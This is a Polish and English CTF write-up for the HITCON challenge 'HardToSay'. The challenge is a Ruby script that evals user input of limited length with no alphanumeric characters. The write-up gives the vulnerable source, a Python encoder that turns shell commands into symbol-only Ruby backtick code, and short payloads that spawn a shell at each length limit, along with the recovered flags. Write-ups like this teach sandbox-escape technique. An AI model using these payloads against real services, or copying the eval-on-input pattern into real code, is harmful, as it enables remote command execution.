﻿## HardToSay (misc, 200p, (111, 88, 73, 28) solves)

    Ruby on Fails.
    FLAG1: nc 54.199.215.185 9001
    FLAG2: nc 54.199.215.185 9002
    FLAG3: nc 54.199.215.185 9003
    FLAG4: nc 54.199.215.185 9004

    hard_to_say-151ba63da9ef7f11bcbba93657805f85.rb

### PL
[ENG](#eng-version)

Dostajemy taki kod:

```ruby

#!/usr/bin/env ruby

fail 'flag?' unless File.file?('flag')

$stdout.sync = true

limit = ARGV[0].to_i
puts "Hi, I can say #{limit} bytes :P"
s = $stdin.gets.strip!

if s.size > limit || s[/[[:alnum:]]/]
  puts 'oh... I cannot say this, maybe it is too long or too weird :('
  exit
end

puts "I think size = #{s.size} is ok to me."
r = eval(s).to_s
r[64..-1] = '...' if r.size > 64
puts r
```

Jak widać pobiera on od użytkownika kod, i evaluje go - ale tylko pod warunkiem że nie zawiera znaków alfanumerycznych i jest odpowiednio krótki.

Są cztery serwery z zadaniem - każdy z nich przyjmuje mniej znaków. Pierwszy 1024, drugi 64, trzeci 36, a czwarty tylko 10. Za pokonanie każdego dostajemy 50 punktów.

Najlepszym rozwiązaniem na jakie wpadliśmy na początku to wykonanie operacji na shellu za pomocą backticków (``` ` ```) i interpolowania stringów.

Opieramy się tutaj na kilku wartościach które są domyślnie dostępne w interpreterze, np. `$$` zwraca nam PID aktualnego procesu, więc wykonanie `$$/$$` da nam wynik `1`. Możemy w ten sposób uzyskać dowolne liczby, a stosując `''<<number` możemy generować także dowolne znaki ASCII.

Napisaliśmy sobie prosty enkoder wykonujący dowolne (odpowiednio krótkie) polecenie shellowe:

```python
def encode(cmd):
    out = """a1 = $$/$$
    a2 = a1+a1
    a4 = a2+a2
    a8 = a4+a4
    a16 = a8+a8
    a32 = a16+a16
    a64 = a32+a32
    """

    ss = []
    for c in cmd:
        cc = ord(c)
        vs = []
        for b in range(8):
            if (2**b) & ord(c):
                vs.append('a'+str(2**b))
        ss.append('(' + '+'.join(vs) + ")")
    s = '(""<<' + '<<'.join(ss) + ")"

    end = "`#{" + s + "}`"

    start = out + end

    varnames = ['_'*i for i in range(1,10)][::-1]

    start = start.replace('a64', varnames.pop())
    start = start.replace('a32', varnames.pop())
    start = start.replace('a16', varnames.pop())
    start = start.replace('a8', varnames.pop())
    start = start.replace('a4', varnames.pop())
    start = start.replace('a2', varnames.pop())
    start = start.replace('a1', varnames.pop())
    start = ';'.join(start.split('\n'))
    return start

import sys
print encode(sys.argv[1])
```

Flaga: `hitcon{what does the ruby say? @#$%!@&(%!#$&(%!@#$!$?...}`

+50 punktów. Zdobyliśmy w ten sposób pierwszą flagę. Niestety, okazało się że nie da się ukraść jednej flagi mając shella od drugiej flagi (brak uprawnień) i musieliśmy
kombinować dalej...

Postanowiliśmy złożyć string "sh". I umieścić bo w backtickach aby wykonać go w shellu, uzyskując tym samym dostęp do shella. Nasza druga próba, dla 64 znaków, wyglądała tak:

    _=$$;$_=*?`..?{;`#{$_[_*_+_-_/_]+$_[_+_]}`

Flaga: `hitcon{Ruby in Peace m(_ _)m`

+50 punktów. A następnie dla 36 bajtów analogiczna operacja kodująca wywołanie sh:

    _=*?[..?{;`#{_[~--$$-$$]+_[~$$*$$]}`

Flaga: `hitcon{My cats also know how to code in ruby :cat:}`

+50 punktów. Później myśleliśmy dłuższą chwilę, ale wpadliśmy na to, że wykonanie `$0` również powinno dać nam shell - spróbowaliśmy więc:

    `$#{~-$.}`

Gdzie `$.` to aktualny numer linii w stdin (czyli u nas 1). Operacja `~-number` zwraca nam liczbę o 1 mniejszą, czyli 0. Interpolujemy wynik jako stringa, doklejamy do znaku `$` i wywołujemy uzyskane `$0` w shellu uzyskując dostęp do shella.
Flaga: `hitcon{It's hard to say where ruby went wrong QwO}`

W ten sposób zdobyliśmy kolejne 50 punktów, rozwiązując w ten sposób całe zadanie.

### ENG version

We get the code:

```ruby

#!/usr/bin/env ruby

fail 'flag?' unless File.file?('flag')

$stdout.sync = true

limit = ARGV[0].to_i
puts "Hi, I can say #{limit} bytes :P"
s = $stdin.gets.strip!

if s.size > limit || s[/[[:alnum:]]/]
  puts 'oh... I cannot say this, maybe it is too long or too weird :('
  exit
end

puts "I think size = #{s.size} is ok to me."
r = eval(s).to_s
r[64..-1] = '...' if r.size > 64
puts r
```

As can be seen, it gets data from the use and evaluates it with `eval()`, but only if it doesn't contain any alphanumerical characters and is short enough.

There are 4 instances of the task - each one accepts less characters. First 1024, second 64, third 36 and last one only 10. For beating each one we get 50 points.

The best solution we came up with initially was executing shell operations with (``` ` ```) and string interpolation.

We use here some numerical values that are accesible in the interpreter, eg. `$$` gives is PID of the process so calling `$$/$$` gives nam `1`. This way we can get any number and by using `''<<number` we can also generate any ASCII.

We made a simple encoder that can create a code for us:

```python
def encode(cmd):
    out = """a1 = $$/$$
    a2 = a1+a1
    a4 = a2+a2
    a8 = a4+a4
    a16 = a8+a8
    a32 = a16+a16
    a64 = a32+a32
    """

    ss = []
    for c in cmd:
        cc = ord(c)
        vs = []
        for b in range(8):
            if (2**b) & ord(c):
                vs.append('a'+str(2**b))
        ss.append('(' + '+'.join(vs) + ")")
    s = '(""<<' + '<<'.join(ss) + ")"

    end = "`#{" + s + "}`"

    start = out + end

    varnames = ['_'*i for i in range(1,10)][::-1]

    start = start.replace('a64', varnames.pop())
    start = start.replace('a32', varnames.pop())
    start = start.replace('a16', varnames.pop())
    start = start.replace('a8', varnames.pop())
    start = start.replace('a4', varnames.pop())
    start = start.replace('a2', varnames.pop())
    start = start.replace('a1', varnames.pop())
    start = ';'.join(start.split('\n'))
    return start

import sys
print encode(sys.argv[1])
```

Flag: `hitcon{what does the ruby say? @#$%!@&(%!#$&(%!@#$!$?...}`

+50 points. This way we got the first flag. Unfortunately it was not possible to steal a different flag with the shell access we got (no permission) so we had to try harder.

We decided that we could prepare "sh" and put it in backticks to execute it in shell and get shell access. Our first attempt for 64 characters:

    _=$$;$_=*?`..?{;`#{$_[_*_+_-_/_]+$_[_+_]}`

Flag: `hitcon{Ruby in Peace m(_ _)m`

+50 points. Next one for 36 characters similar attempt to call "sh":

    _=*?[..?{;`#{_[~--$$-$$]+_[~$$*$$]}`

Flag: `hitcon{My cats also know how to code in ruby :cat:}`

+50 points. Then we had to think for a while but we figured that executing `$0` in the shell should also give us shell so we tried:

    `$#{~-$.}`

Where `$.` is current stdin line number (for us 1). Operation `~-number` returns number-1, so in our case 0. We interpolate this as string and glue with `$` and execute the `$0` we just got, getting shell accesss.
Flag: `hitcon{It's hard to say where ruby went wrong QwO}`

This way we got another 50 points and solved whole task.
